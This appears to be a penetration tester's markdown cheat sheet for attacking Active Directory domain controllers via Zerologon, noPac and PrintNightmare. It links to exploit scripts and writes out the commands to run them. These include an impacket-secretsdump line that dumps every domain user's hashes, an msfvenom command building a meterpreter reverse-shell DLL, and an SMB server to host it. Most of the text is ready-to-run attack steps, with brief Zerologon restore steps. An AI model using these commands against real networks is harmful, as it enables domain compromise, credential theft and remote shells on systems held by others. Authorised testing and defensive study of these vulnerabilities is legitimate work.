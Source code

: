 <br>

### Zerologon
This exploit should be used very carefully and with the guarantee that it can be reversed. It changed the domain controller's password and interrupts communication with other computers in the domain.
To `test` the vulnerability without exploiting it, I used the following script: https://github.com/SecuraBV/CVE-2020-1472

> python3 zerologon_tester.py \<DC-name> \<DC-ip>

To exploit it, you can find the Zerologon exploit here: https://github.com/dirkjanm/CVE-2020-1472, as well as restoration steps.

> python3 cve-2020-1472-exploit.py \<DC-name> \<DC-ip>

Get all of the information (usernames + hashes)
> impacket-secretsdump -just-dc \<domain>/\<DC-name>\$@\<DC-ip>

**To restore**

Get the lanman_hash:ntlm_hash from the output of the previous command
> impacket-secretsdump administrator@\<DC-ip> -hashes \<lanman_hash:ntlm_hash>

Obtain the plaintext password from the output of the previous command
> python3 restorepassword.py \<domain>/\<DC-name>@\<DC-name> -target-ip \<DC-ip> -hexpass \<plaintext-password>

<br>

### NO-PAC (sam-the-admin)

This exploit is possible if you have any valid credentials from a user in the Active Directory.
You can find the exploit here: https://github.com/WazeHell/sam-the-admin
> python3 sam_the_admin.py -dc-ip \<DC-ip> \<domain>/\<user>:\<password>

<br>

### PrintNightmare 
You can find the exploit here: https://github.com/cube0x0/CVE-2021-1675

For this exploit, you need valid user credentials.

Check if the system is vulnerable:
> rpcdump.py \<target-ip> | egrep 'MS-RPRN|MS-PAR'

If you get `Print System Asynchronous Remote Protocol & Print System Remote Protocol` in the output, it is vulnerable.

Create a .dll file to execute the reverse shell
> msfvenom -p windows/x64/meterpreter/reverse_tcp -ax64 -f dll LHOST=\<target-ip> LPORT=\<target-port> > shell.dll

Start a listener on the port used in the command.

Host the file on Samba

> smbserver.py share pwd -smb2support
